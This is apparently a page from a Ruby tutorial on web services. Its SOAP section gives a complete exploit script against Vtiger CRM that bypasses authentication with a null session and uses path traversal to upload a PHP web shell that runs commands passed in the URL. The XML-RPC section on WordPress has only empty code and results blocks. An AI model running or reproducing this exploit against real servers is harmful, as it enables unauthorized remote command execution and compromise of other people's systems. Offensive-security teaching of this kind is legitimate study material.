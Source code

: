 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install savon httpclient
```

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```



### XML-RPC
Ruby has a [standard library][2] called `xmlrpc` which take care of all xmlrpc stuff you can even create an xmlrpc server using it. Let's  to get  Some real word example 

Looking for really known application that support XMLRPC then of course Wordpress was the first attendee. 

So what do we want to do?
- Say hello to wordpress 
- List all available methods
- List all available users
- List all available post
- Create a new post!


```ruby

```

Results 

```
```

and here is the new post












<br><br><br>
---
[1]:
[2]: http://ruby-doc.org/stdlib-2.2.3/libdoc/xmlrpc/rdoc/XMLRPC/Client.html
